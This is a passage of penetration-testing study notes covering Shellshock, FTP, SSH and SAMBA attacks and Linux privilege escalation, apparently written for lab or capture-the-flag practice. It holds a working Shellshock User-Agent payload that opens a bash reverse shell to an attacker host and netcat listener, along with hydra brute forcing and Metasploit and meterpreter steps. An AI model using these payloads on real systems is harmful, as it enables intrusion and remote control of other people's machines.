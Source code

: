 - **`rlwrap** nc -nlvp 1234`
- Using Burpsuite: User-Agent: () { :; }; echo; echo; /bin/bash -c ‘bash -i>&/dev/tcp/<local_ip>/1234 0>&1’

OR

- `search apache_mod_cgi_bash_env_exec` - in Metasploit
- `set TARGETURI /gettime.cgi`

### Exploiting FTP

FTP can be used for transferring files to and from a directory web server. Default port (21/TCP) can be changed.

- `hydra`
- `ftp <ip>` - then entering username & password
- `dir`, `get <flag.txt>`
    
    
- `searchsploit proftpd 1.3.5`

### Exploiting SSH (default port can be changed)

SSH authentication can be performed in 2 ways:

1. username & password
2. key based authentication

- `hydra`

### Exploiting SAMBA

smbclient is a part of SAMBA software suite, used for interaction with SAMBA.

- `hydra`
- `smbmap -H <ip> -u <user> -p <password>` - gives share names
- `smbclient -L -U <user> <ip>` - lists share names as well
- `smbclient //ip/<share> -U <user>` - interacting with SAMBA
    - `smb: \> ?` - help
- `enum4linux -a <ip> -u <user> -p <password>`

## Linux PrivEsc

### Linux Kernel Exploits

- `meterpreter > shell`
- **`/bin/bash -i`** - for a bash shell
- `meterpreter > cd /tmp`
- `meterpreter > upload linux-exploit-suggester.sh`, then `chmod +x linux-exploit-suggester.sh`
- `search **suggester**` in `msfconsole`

### Cron Job exploitation

Task scheduling on Linux is done by time-based **Cron** utility.
